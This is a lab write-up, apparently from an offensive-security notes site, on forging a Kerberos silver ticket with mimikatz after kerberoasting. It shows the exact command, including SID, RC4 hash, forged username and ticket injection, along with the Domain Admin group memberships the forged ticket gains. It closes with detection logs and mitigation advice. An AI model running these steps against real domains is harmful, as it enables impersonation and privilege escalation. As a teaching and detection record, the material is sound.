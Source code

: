 ```yaml
---
description: Credential Access
---
```


# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](t1208-kerberoasting.md) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker.

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument                                            | Notes                                                                                             |
| --------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user`                  |
| /target:dc-mantvydas.offense.local                  | server hosting the attacked service for which the TGS ticket was cracked                          |
| /service:http                                       | service type being attacked                                                                       |
| /rc4:a87f3a337d73085c45f9416be5787d86               | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case               |
| /user:beningnadmin                                  | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155                                            | Forging user's RID - fun                                                                          |
| /ptt                                                | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately            |

Getting our user's SID as explained in the first step in the above table:

![Getting a user's SID](../../.gitbook/assets/silver-tickets-whoami.png)

Issuing the final mimikatz command to create our forged (silver) ticket:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode %}

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:

![](<../../.gitbook/assets/silver-tickets-generated-ticket (2).png>)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name                  |
| --- | --------------------------- |
| 512 | Domain Admins               |
| 513 | Domain Users                |
| 518 | Schema Admins               |
| 519 | Enterprise Admins           |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

{% code title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](<../../.gitbook/assets/silver-tickets-4624 (1).png>)

It is better not to use user accounts for running services on them, but if you do, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently, so they are better suited for running services on. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782\(v=ws.11\)) for running more secure services.

## References

{% embed url="https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets" %}

{% embed url="https://adsecurity.org/?p=2011" %}

